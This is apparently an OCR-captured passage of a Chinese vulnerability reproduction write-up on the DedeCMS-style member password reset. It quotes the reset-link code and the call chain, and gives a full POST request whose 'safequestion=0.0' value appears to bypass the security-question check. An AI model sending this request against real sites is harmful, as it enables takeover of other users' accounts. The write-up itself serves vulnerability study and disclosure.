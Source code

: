 > 通过验证密保成功后，数据表会随机生成一个随机密码，$key = md5($randval)（八位随机字符MD5后的值），之后进行跳转
>
> ```
> return showmsg('稍后跳转到修改页', $cfg_basehost.$cfg_memberurl."/resetpassword.php?dopost=getpasswd&amp;id=".$mid."&amp;key=".$randval);
> ```

函数调用过程

```
resetpassword.php>>>>function sn>>>>>function newmail
```

# 复现过程

payload

在修改密码处，发出如下数据包

```
POST /member/resetpassword.php HTTP/1.1
Host: www.test.com
Content-Length: 65
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.test.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://www.test.com/member/resetpassword.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=stt0h189i8cen6p09pk2d7sep1; DedeUserID=4; DedeUserID__ckMd5=fa34ad9424a32421; DedeLoginTime=1664795872; DedeLoginTime__ckMd5=8863b846c6eebbf8
Connection: close

dopost=safequestion&id=4&userid=test&vdcode=RSUH&safequestion=0.0
```
